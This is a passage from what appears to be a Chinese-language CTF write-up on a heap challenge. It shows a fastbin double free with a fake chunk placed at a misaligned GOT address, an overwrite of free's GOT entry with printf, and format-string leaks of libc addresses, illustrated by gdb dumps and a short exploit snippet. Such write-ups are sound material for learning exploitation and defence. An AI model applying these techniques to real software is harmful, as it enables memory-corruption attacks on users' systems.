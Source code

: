 此时fastbin  
`0x60: 0x16512e0 —▸ 0x1651220 ◂— 0x16512e0 `  
0x16512e0 在fastbin 中两次 

此时在got表中查找可以伪造的size  
`0000| 0x602000 --> 0x601e28 --> 0x1`  
错位构造出0x60
```
gdb-peda$ x/4gx 0x602000+2-8
0x601ffa:       0x1e28000000000000      0xf168000000000060
```

```python
tar = 0x602000+2-8
new(0x50,p64(tar))
new(0x50,"ccc")
new(0x50,"ddd")
```
明明size的位置是0xf168000000000060 , 为什么还可以当作0x60使用? 

![](IMG/HuXiang/fastbin.png)

r14=0x601ffa , 在size校验的时候用eax获取size,会忽略高位的0xf168

#### 2. 泄露地址

* 覆盖free的got表为printf_plt(注意不要影响到下面的puts_got)

* 确认栈中的libc函数位置
刚开始用"%8$x.%9$x.%10$x"填充到前17个堆块中后再free它们，来测试 printf泄露的位置，再从其中查找stack上的libc地址。64位下前6个参数取寄存器的值，而不是栈中的值，所以取8，9，10来定位位置。
输出结果是 5408ef20.400c24.5408f000
```
│0000| 0x7fff5408eef0 --> 0x400750 (xor    ebp,ebp)
│0008| 0x7fff5408eef8 --> 0x21bc2d00
│0016| 0x7fff5408ef00 --> 0x7fff5408ef20 --> 0x400c50 (push   r15)
│0024| 0x7fff5408ef08 --> 0x400c24 (jmp    0x400c44)
│0032| 0x7fff5408ef10 --> 0x7fff5408f000 --> 0x1
│0040| 0x7fff5408ef18 --> 0x300000000
│0048| 0x7fff5408ef20 --> 0x400c50 (push   r15)
│0056| 0x7fff5408ef28 --> 0x7ff02c5d8730 (<__libc_start_main+240>:       mov    edi,eax)
│0064| 0x7fff5408ef30 --> 0x1
```
